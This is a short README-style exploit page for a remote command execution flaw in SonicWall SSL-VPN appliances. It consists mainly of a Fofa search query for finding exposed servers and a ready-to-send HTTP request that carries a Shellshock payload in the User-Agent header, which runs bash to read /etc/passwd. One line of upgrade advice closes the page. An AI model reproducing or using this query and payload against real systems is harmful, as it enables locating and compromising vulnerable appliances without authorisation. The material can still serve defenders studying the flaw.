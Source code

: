 # SonicWall-SSL-VPN-RCE
SonicWall-SSL-VPN-RCE


## Fofa
``` bash
app="SONICWALL-SSL-VPN" && server=="SonicWALL SSL-VPN Web Server"
```

## POC
``` bash
GET /cgi-bin/jarrewrite.sh HTTP/1.1
Host: 103.x.x.x:4433
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://103.x.x.x.x:4433/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AOPortal_103.x.x.x=false; SessURL=https%3A%2F%2F103.x.x.x%3A4433%2Fcgi-bin%2Fwelcome
```
![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-1.png)
java的gui版：
![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-2.png)
## 修复建议

升级到Sonic SMA 8.0.0.4
